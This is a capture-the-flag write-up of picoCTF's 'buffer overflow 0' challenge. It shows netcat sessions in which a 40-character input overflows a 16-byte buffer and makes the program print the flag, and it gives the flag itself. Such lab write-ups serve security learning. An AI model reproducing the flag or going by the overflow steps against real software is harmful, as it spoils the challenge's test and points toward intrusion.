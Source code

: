 # Challenge 1: buffer overflow 0
Challenge is asking to exploit the code by overflowing the buffer in the given C source file.

## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## My Approach:
First I started with entering a normal input, on entering the program gets ended. Them I checked the C source code provided to us, there I saw that buffer char array's maximum size is 16. Therefore, to overflow, input should be of greater size than the size of the array.

```
krishna@ULTRON:~$ nc saturn.picoctf.net 53582
Input: 123
The program will exit now

krishna@ULTRON:~$ nc saturn.picoctf.net 53582
Input: 0000000000000000
The program will exit now

krishna@ULTRON:~$
krishna@ULTRON:~$ nc saturn.picoctf.net 53582
Input: 0000000000000000000000000000000000000000
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## My Learnings:
Got to know about stack overflows.
